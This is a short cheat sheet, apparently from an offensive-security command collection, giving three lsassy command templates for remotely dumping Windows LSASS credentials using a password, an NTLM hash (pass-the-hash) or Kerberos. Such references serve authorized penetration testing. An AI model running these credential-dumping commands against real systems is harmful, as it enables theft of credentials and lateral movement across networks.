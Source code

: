 # Lsassy

## Lsassy basic usage with password (ip or range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain> -u <user> -p <password> <ip>
```

## Lsassy basic usage with hash (ip or range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -v -u <user> -H <hash> <ip>
```

## Lsassy basic usage with kerberos (ip or range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain> -u <user> -k <ip_range>
```
